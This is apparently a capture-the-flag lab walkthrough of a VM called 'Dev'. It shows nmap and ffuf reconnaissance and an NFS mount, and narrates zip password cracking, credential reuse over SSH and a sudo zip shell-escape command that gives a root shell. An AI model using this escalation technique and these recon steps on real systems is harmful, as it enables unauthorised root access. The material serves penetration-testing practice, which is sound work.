






# DEV

# Dev

We will perform nmap scan

```bash
(root💀kali)-[~]
# nmap -p- -A -T4 192.168.29.91
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-19 18:39 IST
Nmap scan report for 192.168.29.91
Host is up (0.0017s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:96:ec:08:2f:b1:ea:06:ca:fc:46:8a:7e:8a:e3:55 (RSA)
|   256 56:32:3b:9f:48:2d:e0:7e:1b:df:20:f8:03:60:56:5e (ECDSA)
|_  256 95:dd:20:ee:6f:01:b6:e1:43:2e:3c:f4:38:03:5b:36 (ED25519)
80/tcp    open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: Bolt - Installation error
|_http-server-header: Apache/2.4.38 (Debian)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      38733/tcp   mountd
|   100005  1,2,3      39935/tcp6  mountd
|   100005  1,2,3      56519/udp   mountd
|   100005  1,2,3      58593/udp6  mountd
|   100021  1,3,4      42001/tcp6  nlockmgr
|   100021  1,3,4      46743/tcp   nlockmgr
|   100021  1,3,4      49314/udp   nlockmgr
|   100021  1,3,4      57784/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs      3-4 (RPC #100003)
8080/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
36871/tcp open  mountd   1-3 (RPC #100005)
38733/tcp open  mountd   1-3 (RPC #100005)
46743/tcp open  nlockmgr 1-4 (RPC #100021)
58495/tcp open  mountd   1-3 (RPC #100005)
MAC Address: 08:00:27:0B:EB:8E (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   1.74 ms 192.168.29.91

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.03 seconds

```

Now we will check for directory pages for it we are using ffuf tool

ffuf (Fuzz Faster U Fool) is a fast web fuzzing tool used for directory, file, parameter, and virtual host enumeration.

It is commonly used during reconnaissance to discover hidden endpoints and resources.

ffuf works by replacing a keyword in a URL or request with payloads from a wordlist.

It supports filtering by response codes, size, and words to reduce noise.

ffuf is widely used in web penetration testing and bug bounty hunting.

```bash
(root💀kali)-[~]
# ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.29.91//FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.29.91//FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

#                       [Status: 200, Size: 3833, Words: 926, Lines: 108, Duration: 8ms]
                        [Status: 200, Size: 3833, Words: 926, Lines: 108, Duration: 6ms]
# Copyright 2007 James Fisher [Status: 200, Size: 3833, Words: 926, Lines: 108, Duration: 7ms]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/  [Status: 200, Size: 3833, Words: 926, Lines: 108, Duration: 8ms]
# or send a letter to Creative Commons, 171 Second Street,  [Status: 200, Size: 3833, Words: 926, Lines: 108, Duration: 6ms]
# This work is licensed under the Creative Commons  [Status: 200, Size: 3833, Words: 926, Lines: 108, Duration: 7ms]
#                       [Status: 200, Size: 3833, Words: 926, Lines: 108, Duration: 9ms]
public                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 2ms]
# on atleast 2 different hosts [Status: 200, Size: 3833, Words: 926, Lines: 108, Duration: 346ms]
src                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 2ms]
app                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 1ms]
# directory-list-2.3-medium.txt [Status: 200, Size: 3833, Words: 926, Lines: 108, Duration: 674ms]
#                       [Status: 200, Size: 3833, Words: 926, Lines: 108, Duration: 802ms]
vendor                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 4ms]
extensions              [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 1ms]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 3833, Words: 926, Lines: 108, Duration: 1251ms]
#                       [Status: 200, Size: 3833, Words: 926, Lines: 108, Duration: 1353ms]
# Priority ordered case sensative list, where entries were found  [Status: 200, Size: 3833, Words: 926, Lines: 108, Duration: 1510ms]
# Attribution-Share Alike 3.0 License. To view a copy of this  [Status: 200, Size: 3833, Words: 926, Lines: 108, Duration: 1606ms]
                        [Status: 200, Size: 3833, Words: 926, Lines: 108, Duration: 192ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 12ms]
:: Progress: [220560/220560] :: Job [1/1] :: 2105 req/sec :: Duration: [0:01:28] :: Errors: 0 ::

```

And this scan for port 8080

```bash
(root💀kali)-[~]
# ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.29.91:8080//FUZZ 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.29.91:8080//FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

# directory-list-2.3-medium.txt [Status: 200, Size: 94620, Words: 4689, Lines: 1160, Duration: 218ms]
# This work is licensed under the Creative Commons  [Status: 200, Size: 94620, Words: 4689, Lines: 1160, Duration: 242ms]
#                       [Status: 200, Size: 94620, Words: 4689, Lines: 1160, Duration: 279ms]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/  [Status: 200, Size: 94620, Words: 4689, Lines: 1160, Duration: 341ms]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 94620, Words: 4689, Lines: 1160, Duration: 433ms]
# Attribution-Share Alike 3.0 License. To view a copy of this  [Status: 200, Size: 94620, Words: 4689, Lines: 1160, Duration: 493ms]
#                       [Status: 200, Size: 94620, Words: 4689, Lines: 1160, Duration: 505ms]
# or send a letter to Creative Commons, 171 Second Street,  [Status: 200, Size: 94620, Words: 4689, Lines: 1160, Duration: 467ms]
# Copyright 2007 James Fisher [Status: 200, Size: 94620, Words: 4689, Lines: 1160, Duration: 507ms]
                        [Status: 200, Size: 94620, Words: 4689, Lines: 1160, Duration: 889ms]
# on atleast 2 different hosts [Status: 200, Size: 94620, Words: 4689, Lines: 1160, Duration: 893ms]
#                       [Status: 200, Size: 94620, Words: 4689, Lines: 1160, Duration: 906ms]
dev                     [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 12ms]
# Priority ordered case sensative list, where entries were found  [Status: 200, Size: 94620, Words: 4689, Lines: 1160, Duration: 1086ms]
#                       [Status: 200, Size: 94620, Words: 4689, Lines: 1160, Duration: 1338ms]
                        [Status: 200, Size: 94619, Words: 4689, Lines: 1160, Duration: 117ms]
server-status           [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 17ms]
:: Progress: [220560/220560] :: Job [1/1] :: 4347 req/sec :: Duration: [0:01:25] :: Errors: 0 ::
```

Now we are mounting the nfs network file share and lets se what is in it

```bash
(root💀kali)-[~]
# showmount -e 192.168.29.91 
Export list for 192.168.29.91:
/srv/nfs 172.16.0.0/12,10.0.0.0/8,192.168.0.0/16

now lets create new file to save these nfs file 

(root💀kali)-[~]
# mkdir /mnt/dev
 
 now we will mount this on our system 
(root💀kali)-[~]
# mount -t nfs 192.168.29.91:srv/nfs /mnt/dev

```



we found a file name save.zip 

this save.zip is secured by the password and we will try to open it through the fcrackzip

fcrackzip is a command-line tool used to crack password-protected ZIP files.It works by performing brute-force or dictionary attacks against encrypted ZIP archives. In cyber security, it is used during password recovery, CTFs, and penetration testing labs. fcrackzip supports wordlists, incremental attacks, and known-plaintext attacks. It is useful when a ZIP file is found during enumeration and access is required.


we got the password of this zip

we found the the files in it by opining the todo file we got to know name called jd and we tried to ssh it but don't know the password


From the pages we got from the ffuf 



downloading the config file we found by digging



we got some name and password



now lets find exploit in exploit database



lets open this location in web page



we got the name for jd is jeanpaul

we will try ssh to jean paul and try the password we found


we are into jean paul machine but we are not the sudo user

we will use sudo -l to find which command we can use without password

```bash
jeanpaul@dev:~$ sudo -l
Matching Defaults entries for jeanpaul on dev:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jeanpaul may run the following commands on dev:
    (root) NOPASSWD: /usr/bin/zip
    
```

For accessing the privilege by using sudo we need google surfing in  gtfobin.com


we got something we can get an sudo user privileges lets try this on jean paul machine

```bash
jeanpaul@dev:~$ history
    1  echo "" > .bash_history 
    2  sudo -l
    3  exit
    4  sudo -l
    5  history
    6  TF=$(mktemp -u)
    7  sudo zip $TF /etc/hosts -T -TT 'sh #'
    8  clear
    9  sudo -l
   10  history
jeanpaul@dev:~$ TF=$(mktemp -u)
jeanpaul@dev:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# id
uid=0(root) gid=0(root) groups=0(root)
# pwd
/home/jeanpaul
# ls
# cd ..
# ls
jeanpaul
# cd ..
# ls
bin   dev  home        initrd.img.old  lib32  libx32      media  opt   root  sbin  sys  usr  vmlinuz
boot  etc  initrd.img  lib             lib64  lost+found  mnt    proc  run   srv   tmp  var  vmlinuz.old
# cd /root
# ls
flag.txt
# cat flag.txt
Congratz on rooting this box !
# 

```

so we got the flag and also access on the machine as root user